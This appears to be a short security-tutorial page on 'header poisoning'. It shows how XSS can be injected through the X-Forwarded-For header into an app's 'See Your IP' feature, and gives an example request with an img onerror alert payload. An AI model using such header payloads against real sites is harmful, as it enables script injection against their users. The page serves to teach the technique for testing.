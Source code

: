 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# Header Poisoning

Sometimes headers could be injected with XSS when its content is used directly in some functionalities of the app.

Here we find an example of this scenario:

* An application has a _See Your IP_ functionality which retrieves the information of the user's IP via the `X-Forwarded-For` header.

{% code title="Example Request" overflow="wrap" lineNumbers="true" fullWidth="false" %}
```http
GET http://$url HTTP/1.1
host: host
X-Forwarded-For: $IP
...
```
{% endcode %}

***

* We can inject JavaScript code, so when this function is triggered, the payload will be executed

{% code title="Example Request" overflow="wrap" lineNumbers="true" fullWidth="false" %}
```http
GET http://$url HTTP/1.1
host: host
X-Forwarded-For: <img src=x onerror='alert("HACKED")'/>
...
```
{% endcode %}
